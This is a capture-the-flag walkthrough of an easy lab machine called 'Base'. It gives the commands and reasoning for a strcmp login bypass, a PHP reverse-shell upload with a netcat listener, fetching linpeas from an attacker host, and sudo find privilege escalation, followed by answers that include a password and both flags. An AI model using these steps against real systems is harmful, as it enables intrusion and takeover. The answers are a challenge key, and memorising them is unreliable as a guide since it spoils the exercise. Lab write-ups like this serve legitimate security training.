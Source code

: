 # Base - Very Easy

```shell
rustscan -a 10.129.195.152 --range 0-65535 --ulimit 5000 -- -sV

feroxbuster -u http://10.129.195.152 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

nc -nvlp 4444
#setup listener
#upload reverse shell file to /upload.php
#access reverse shell at /_uploaded/reverse-shell.php

python3 -c 'import pty;pty.spawn("/bin/bash")'

ls /home

#get linpeas.sh from attacker machine
#in attacker machine
python3 -m http.server

#in reverse shell
cd /tmp

wget http://10.10.14.40:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

ssh john@10.129.195.152
#use the password found earlier using linpeas.sh

cat user.txt

sudo -l
#we can run find as root

#using exploit from gtfobins
sudo /usr/bin/find . -exec /bin/sh \; -quit

#we get root shell
cat /root/root.txt
```

```markdown
Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1
  * 80 - http - Apache httpd 2.4.29 (Ubuntu)

We can start enumerating web directories and explore the website.

We get /login/login.php, which leads us to a login page.

Checking /login, we have three files - config.php, login.php, and login.php.swp

Now, the .swp file contains PHP code, this could be related to the login functionality.

The .swp file shows that /login/login.php is using strcmp(), and there are various methods to bypass it.

A simple technique to bypass it is to intercept request in Burp Suite, and change password variable to an array; this would return True in this case and give us access to /upload.php

Furthermore, we can access uploaded files at /_uploaded

Now, we can upload a reverse shell and setup listener, and access the uploaded shell to give us shell access.

We get reverse shell as www-data; we can look for privesc using linpeas.sh

Now, linpeas.sh shows us a password found in config PHP files - we can use this password to SSH as john.

Using 'sudo -l', we can see that 'find' can be run as root; we can exploit this by using GTFObins.

Once /usr/bin/find is exploited, we get root shell.
```

1. Which two TCP ports are open on the remote host? - 22,80

2. What is the URL for the login page? - /login/login.php

3. How many files are present in the '/login' directory? - 3

4. What is the file extension of a swap file? - .swp

5. Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password? - strcmp()

6. In which directory are the uploaded files stored? - /_uploaded

7. Which user exists on the remote host with a home directory? - john

8. What is the password for the user present on the system? - thisisagoodpassword

9. What is the full path to the command that the user john can run as user root on the remote host? - /usr/bin/find

10. What action can the find command use to execute commands? - exec

11. Submit user flag - f54846c258f3b4612f78a819573d158e

12. Submit root flag - 51709519ea18ab37dd6fc58096bea949
